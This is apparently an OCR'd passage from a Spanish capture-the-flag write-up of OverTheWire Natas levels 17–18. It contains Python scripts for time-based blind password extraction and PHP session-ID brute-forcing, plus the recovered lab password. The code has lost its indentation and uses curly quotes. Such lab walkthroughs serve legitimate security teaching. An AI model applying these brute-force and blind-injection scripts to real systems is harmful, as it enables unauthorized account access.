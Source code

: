 ~~~
response = httpClient.getresponse()
#print response.read()
endDatetime = datetime.datetime.now()
if int((endDatetime-startDatetime).microseconds) >= 600000: # change “600000” to fit the current latency of network (over 500000 as 0.5s but not too high)
return True
else:
return False
except Exception, e:
print e
finally:
if httpClient:
httpClient.close()

def autocheck(currentpass):
passbook=”ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789″
if checkPassword(currentpass):
print currentpass
if len(currentpass)==32:
print “Possible Result:”+currentpass
return
for item in passbook:
autocheck(currentpass+item)

password=””
autocheck(password)
~~~
0:0xjsNNjGvHkb7pwgC6PrAyLNT0pYCqHd (not this one)
1:MeYdu6MbjewqcokG0kD4LrSsUZtfxOQ2 (not this one)
2:VOFWy9nHX9WUMo9Ei9WVKh8xLP1mrHKD (not this one)
3:xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP (Real password)

xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

# Natas18
utilizamos
~~~
import httplib,sys
from base64 import b64encode

def check(sessid):
httpClient = None
try:
userAndPass = b64encode(b”natas18:xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP”).decode(“ascii”)
cookie = ‘PHPSESSID=’+str(sessid)
headers = { ‘Authorization’ : ‘Basic %s’ % userAndPass , ‘Cookie’ : cookie }
httpClient = httplib.HTTPConnection(‘natas18.natas.labs.overthewire.org’, 80, timeout=300)
httpClient.request(‘GET’, ‘/index.php?debug=a’, headers=headers)
response = httpClient.getresponse()
responseData = response.read()
if ‘regular’ in responseData:
print ‘regular ‘+str(sessid)
else:
print responseData
sys.exit()
except Exception, e:
print e
finally:
if httpClient:
httpClient.close()

def autocheck():
~~~